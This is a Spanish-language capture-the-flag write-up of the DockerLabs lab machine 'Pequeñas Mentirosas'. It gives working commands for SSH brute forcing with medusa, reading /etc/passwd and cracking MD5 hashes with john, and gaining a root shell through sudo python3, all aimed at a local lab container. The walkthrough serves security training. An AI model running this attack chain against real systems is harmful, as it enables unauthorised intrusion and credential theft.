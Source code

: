 ```yaml
---
layout: post
title: "Pequeñas Mentirosas"
date: 2024-12-06
 12:50:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Pequeñas Mentirosas </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Escaneamos los puertos, pillamos dos puertos que corren los servicios de ssh y apache.

`sudo nmap -p- -open -T5 --min-rate=5000 -sS -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/pequeñasmentirosas/nmap.png){:.margin}

**2\.** En la pagina web nos da una pista, pero fuzzeando de directorios no encontramos ninguno, asi que hacemos fuerza bruta al ssh. 

`http://172.17.0.2`

`medusa -h 172.17.0.2 -u a -P wordlists -M ssh -n 22 | grep SUCCESS`

![img](/notas/public/img/dockerlabs/pequeñasmentirosas/web.png){:.margin}
![img](/notas/public/img/dockerlabs/pequeñasmentirosas/medusa.png){:.margin}

**3\.** Nos conectamos por ssh, una vez dentro vamos a revisar la ruta srv/ftp que es donde se almacenan los archivos en el servidor, tenemos dos ficheros con hashes de usuarios existentes en el sistema.

`sshpass -p 'secret' ssh a@172.17.0.2`

`cd /srv/ftp`

`ls`

`grep bash /etc/passwd`

![img](/notas/public/img/dockerlabs/pequeñasmentirosas/ssh.png){:.margin}
![img](/notas/public/img/dockerlabs/pequeñasmentirosas/hashes.png){:.margin}

**4\.** Vemos que estos hashes tienen la misma longitud, para identificar el tipo de hash podemos usar la herramineta hash-identifier o la web [hashes](https://hashes.com/en/decrypt/hash)

`cat hash_a.txt`

`cat hash_spencer.txt`

`hash-identifier 890b787e76e086d3d76b3a5e9d6a7778`

`hash-identifier 7c6a180b36896a0a8c02787eeafb0e4c`

![img](/notas/public/img/dockerlabs/pequeñasmentirosas/cathashes.png){:.margin}
![img](/notas/public/img/dockerlabs/pequeñasmentirosas/dehashes.png){:.margin}

**5\.** Sabiendo que son md5 podemos usar john o hashcat para crackearlo, primero guardamos nuestras hashes en un fichero luego procedemos a crackearlo, encuentra una contraseña que es igual para ambos hashes.

`nano hashes.txt`

`john --format=raw-md5 --wordlists=/usr/share/wordlists/rockyou.txt hashes.txt`

![img](/notas/public/img/dockerlabs/pequeñasmentirosas/txt.png){:.margin}
![img](/notas/public/img/dockerlabs/pequeñasmentirosas/john.png){:.margin}

**6\.** Con esto migramos al usuario spencer y revisamos binarios SUID, tenemos el binario python3.

`su spencer`

`sudo -l`

![img](/notas/public/img/dockerlabs/pequeñasmentirosas/sudol.png){:.margin}

**7\.** Escalamos privilegios a root aprovechando el binario python3. Recurso [gtfobins](https://gtfobins.github.io/gtfobins/python/#sudo).

`sudo python3 -c 'import os; os.system("/bin/sh")'`

![img](/notas/public/img/dockerlabs/pequeñasmentirosas/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>